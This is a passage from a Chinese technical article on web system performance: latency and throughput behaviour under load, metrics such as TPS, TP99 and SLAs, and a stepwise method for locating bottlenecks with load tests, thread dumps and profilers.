总体来说，随着压力的增大，同等时间内应用被调用的次数增加，我们可以发现这样几个规律：

- **单独观察 Latency 曲线，延迟总是非递减的。一开始延迟可以说几乎不变，到了某一个特定的值（转折点）以后，延迟突然迅速增大。**
- **再来单独观察 Throughput 曲线，吞吐量总是一个先线性增大，后来增长减缓，到达峰值后逐渐减小的过程。**
- 再把两者结合起来观察，延迟曲线前面提到的那个转折点，和吞吐量的最高点，通常在一个比较接近的位置上，并且延迟的转折点往往要略先于吞吐量的最高点出现。

一般说来，延迟会先上升，随着延迟的上升，吞吐量增大的斜率会越来越小，直到达到最高点，之后开始回落。请注意这个系统能达到的最佳吞吐量的点，这个点往往意味着延迟已经开始增大一小段时间了，因此对于一些延迟要求比较高的系统，我们是不允许它达到这个吞吐量的最高点的。

从这个图我们也可以看出，**如果我们不做流量控制，在系统压力大到一定程度的时候，系统并非只能做它“力所能及”的工作，而往往是“什么也做不成”了**。这也是一些不够健壮的系统，在压力较大的特殊业务场景，直接崩溃，对所有用户都拒绝服务的原因。

其它较常见的业务角度定义的性能指标还包括：

- TPS：Transactions Per Second，每秒处理的事务数。相似的还有 QPS，Queries Per Second，每秒处理的查询数量等等。
- 并发用户数：同一时间有多少用户在使用系统。对于网站来说，由于 HTTP 连接的无状态性，往往会使用服务端的会话数量来定义有多少用户同时访问系统。
- TP99：指的是请求中 99% 的请求能达到的性能，这里的 TP 是 Top Percentile 的缩写。比如，我们说某系统响应时间的 TP99 是 1 秒，指的就是 99% 的请求，都可以在 1 秒之内响应，至于剩下的 1% 就不一定了。

关于 TP99，为什么我们使用这种分布比例的方式，而不是使用简单的平均数来定义呢？

这是因为**性能平均数在真实的系统中往往不科学**。

有了 TP99 这样的概念，就可以定义系统的 SLA 了，SLA 是 Service-Level Agreement，它是系统对于它的客户所承诺的可以提供的服务质量，既包括功能，也包括性能。在性能方面，SLA 的核心定义往往就是基于 Top Percentile 来进行的。比方说，一个网站的 SLA 要求它对于浏览器响应时间的 TP95 为 3 秒。

## 2. 资源角度

相应的，资源指标包括 CPU 占用、内存占用、磁盘 I/O、网络 I/O 等等。常规来讲，平均使用率和峰值都是我们比较关心的两个数据。一般我们可以把系统上限的一个比例，比如 60% 或者 80% 定义为一个安全阈值，一旦超过（比如 x 分钟内有 y 次检测到指标超过该阈值，这种复杂指标设置的目的在于考虑性能波动，减少假警报）就要告警。

## 寻找性能瓶颈

多时候，如果我们能找到系统的性能瓶颈，其实就已经解决了一半问题。值得注意的是，性能的瓶颈并不是系统暴露在表面的问题，比如，TP99 的延迟不达标是表面问题，而不是系统瓶颈。

## 大致思路

在性能优化这个繁琐的过程当中，一要寻找问题，二才是解决问题，而寻找性能瓶颈就和寻找根本原因有关，也是一个很有意思的事儿。不同的人显然会有不同的看法，我在网站项目中进行性能瓶颈的定位时，常常会遵循下面几个步骤，换句话说，这个步骤来自于我的经验：

**首先，我们应该对系统有一个大致的预期**。举例来说，根据现有的架构和硬件，在当前的请求模型下，我们希望单台机器能够负载 100 TPS 的请求，这些是设计阶段就考虑清楚的。我看到有些项目中，这些没有在开始定义清楚，等系统大致做好了，再来定义性能目标，这时候把性能优化的工程师推上去优化，就缺乏一定的目的性，谁也不知道优化到什么程度是个头。比方说，当前性能是 80 TPS，那么要优化到 100 TPS，可能小修小补，很小的代价就可以做到；但是要优化到 500 TPS，那么很可能要在产品和架构上做调整，代价往往是很不一样的，没有预期而直接生米煮熟饭显然是不合工程性的。

**其次，过一遍待优化业务的环境、配置、代码，对于整个请求的处理流程做到心中有数**。说白了，这就是走读代码，这个代码既包括应用的源码，也要了解环境和配置，知道整个流程的处理一步一步是怎样进行的。比如说，浏览器上用户触发事件以后，服务端的应用从线程池里面取得了线程来处理请求，接着查询了几次数据库，每次都从连接池中取出或建立连接，进行若干的查询或事务读写操作，再对响应做序列化返回浏览器，而浏览器收到请求以后又进行解析并将执行渲染。值得一提的是，这个过程中，全栈工程师的价值就体现出来了，因为他能够有端到端的视野来看待这个问题，分析整个流程。

**再次，开始压测，缓慢、逐步增大请求速率，直到预期的业务角度的性能指标无法再提升，待系统稳定。**有些指标可能一开始就不满足要求，比如某系统的延迟，在一开始就不达标；也有时候是随着压力增大才发现不达标的，比如多数系统的吞吐量，随着压力增大，吞吐量上不去了。通常，我们可以给到系统一个足够的压力，或者等于、甚至高于系统最大的吞吐量，且待系统稳定后，再来分析，这种情况下我们可以把问题暴露得更彻底。

**最后，才是根据业务角度的指标来进行特定的分析**，我就以最常见的延迟和吞吐量这两个为例来说明。

## 1. 对于延迟一类的问题

从大的流程到小的环节，从操作系统到应用本身，逐步定位，寻找端到端的时间消耗在哪里。比方说，可以**优先考虑系统快照类的工具**，像是 jstack、kill -3 命令可以打印系统当前的线程执行堆栈，因为这一类工具往往执行比较简单，对系统的影响较小；如果还需要进一步明确，**其次再考虑侵入性较强的，运行时剖面分析（profile）类型的工具**，比如 JProfiler。如果发现运行的 50 个线程里面，有 48 个卡在等某一个锁的释放上面，这就值得怀疑该锁的占用是造成延迟问题的罪魁祸首。

## 2. 对于吞吐量一类的问题

这类问题 CPU 是核心。在请求速率逐步增大时，我们来看这样四种情况：

- **吞吐量逐步上升，而 CPU 变化很小**。这种情况说明系统设计得比较好，能继续“扛”更高的负载，该阶段可以继续增大请求速率。
- **吞吐量逐步上升，而 CPU 也平稳上升**。其实这还算是一种较为理想的系统，CPU 使用随着吞吐量的上升而平稳上升，直到 CPU 成为瓶颈——这里的原因很简单，用于业务处理的 CPU 是真正“干活的”，这部分的消耗显然是少不了的。如果这种情况下 CPU 已经很高了却还要优化，那就是说在不能动硬件的情况下，我们需要改进算法了，因为 CPU 已经在拼命干活了。就像程序员一周已经加班五十个小时了，还要再压迫他们，就要出事（系统崩溃）了。
- **吞吐量变化很小甚至回落，而 CPU 大幅上升**。这种情况说明 CPU 的确在干活，却不是用于预期内的“业务处理”。最典型的例子就是，内存泄漏，系统在一个劲地 GC，CPU 看起来忙得要命，但是却不是忙于业务。
- **吞吐量上不去，CPU 也上不去。**这种情况其实非常常见，而且随着压力的增大，它往往伴随着延迟的上升。这种情况是说，CPU 无法成为瓶颈，因为其它瓶颈先出现了，因此这种情况下就要检查磁盘 I/O、网络带宽、工作线程数等等。这就像是一个运动员的潜力（CPU）还很大，但是由于种种原因，比如技巧问题、心理原因，潜力发挥不出来，因此我们优化的目的，就是努力找到并移除当前的瓶颈，将 CPU 的这个潜力发挥出来。


